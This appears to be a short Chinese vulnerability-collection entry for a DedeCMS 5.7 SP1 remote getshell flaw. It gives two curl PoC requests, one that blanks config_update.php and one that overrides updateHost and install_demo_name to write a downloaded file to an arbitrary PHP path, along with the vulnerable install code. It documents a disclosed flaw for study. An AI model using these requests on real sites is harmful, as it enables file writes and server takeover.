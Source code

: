 ## 5.7-SP1 20140313

### insLock 变量覆盖 - 远程 getshell 漏洞

影响版本

* <= 5.7 SP1

参考连接

* [Dedecms远程写文件漏洞分析](http://blog.nsfocus.net/dedecms-write-file-vuln/)

Poc

```
# 清空 config_update.php
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php'
&nbsp; <font color="red">[×]</font> 远程获取失败

# 覆盖 updateHost、install_demo_name，实现远程文件下载
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/hello.php&updateHost=http://127.0.0.1/'
&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)
```

关键代码

```
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```


